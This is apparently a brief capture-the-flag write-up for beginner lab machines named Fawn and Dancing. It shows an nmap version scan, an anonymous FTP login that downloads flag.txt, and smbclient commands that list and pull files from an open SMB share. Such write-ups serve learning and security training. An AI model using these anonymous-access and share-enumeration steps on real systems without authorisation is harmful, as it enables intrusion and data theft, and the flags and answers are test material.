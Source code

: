 # Meow

# Fawn

## Task 1:What does the 3-letter acronym FTP stand for? 

File Transfer Protocol

##  Task 5 :From your scans, what version is FTP running on the target? 

use ``` nmap -sV -P 21 10.129.204.114```

```bash
└─$ ftp 10.129.204.114
Connected to 10.129.204.114.
220 (vsFTPd 3.0.3)
Name (10.129.204.114:druidc): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
```



# Dancing

```bas
smbclient -L 10.129.91.241                  1 ⨯ 1 ⚙
Enter WORKGROUP\druidc's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
SMB1 disabled -- no workgroup available


smbclient //10.129.1.12/WorkShares  

smb: \James.P\> get flag.txt 

```

